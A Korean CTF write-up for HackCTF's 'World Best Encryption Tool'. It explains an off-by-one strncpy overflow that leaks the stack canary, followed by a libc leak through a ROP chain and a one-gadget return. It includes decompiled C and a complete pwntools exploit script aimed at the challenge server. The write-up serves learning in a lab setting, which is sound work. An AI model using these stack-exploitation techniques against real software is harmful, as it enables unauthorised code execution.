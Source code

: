 ```yaml
---
title: "[HackCTF]World Best Encryption Tool"
date: 2020-1-28
ctf: HackCTF
layout: post
published : false
---
```


Partial RELRO, Canary, NX 걸려있다.

```
[*] '/vagrant/ctfs/World_best_encryption_tool'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

메인에서는 scanf로 입력받아서 50글자 28이랑 xor해주고 strncpy로 57만큼 복사해준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int i; // [rsp+8h] [rbp-88h]
  char s1; // [rsp+Ch] [rbp-84h]
  char src[64]; // [rsp+10h] [rbp-80h]
  char dest; // [rsp+50h] [rbp-40h]
  unsigned __int64 v8; // [rsp+88h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  do
  {
    puts("Your text)");
    __isoc99_scanf("%s", src);
    for ( i = 0; i <= 49; ++i )
      src[i] ^= 28u;
    strncpy(&dest, src, 57uLL);
    printf("Encrypted text)\n%s", &dest);
    puts("\nWanna encrypt other text? (Yes/No)");
    __isoc99_scanf("%s", &s1);
  }
  while ( !strcmp(&s1, "Yes") );
  if ( strcmp(&s1, "No") )
    printf("It's not on the option", "No");
  return 0;
}
```

스택은 이런식으로 되어있다. 

```
src(64) | dest(56) | canary(8) | sfp(8) | ret
```

src에서 dest로 복사할때 57만큼 복사하는데 여기서 dest크기는 56인데 canary 1바이트 덮을 수 있고 printf로 인자에 dest가 들어가니까 카나리 릭해줄 수 있다. 그리고 밑에서 또 입력받는데 여기서 카나리 맞춰주고 libc leak해주고 main으로 돌려서 무난하게 원샷 리턴해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./World_best_encryption_tool')
#p = process('./World_best_encryption_tool')
libc = e.libc
p = remote('ctf.j0n9hyun.xyz',3027)
prdi = 0x00000000004008e3 # pop rdi ; ret

p.sendlineafter('Your text)\n','A'*56+'B')

p.recvuntil('AAAAAA')
canary = u64(p.recv(8)) - 0x42
log.info('canary : ' + hex(canary))

#p.sendlineafter('(Yes/No)\n','Yes')

#payload = 'A'*56 + '\x00'
payload = 'A'*60 + '\x00' + 'B'*63
payload += p64(canary)
payload += 'A'*8
payload += p64(prdi)
payload += p64(e.got['__libc_start_main'])
payload += p64(e.plt['puts'])
payload += p64(e.symbols['main'])

p.sendlineafter('(Yes/No)\n',payload)

libc_base = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00') - libc.symbols['__libc_start_main']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('Your text)\n','A'*56 + '\x00' + 'B'*63 + p64(canary) + 'A'*8 + p64(libc_base + 0x45216))

p.interactive()
```

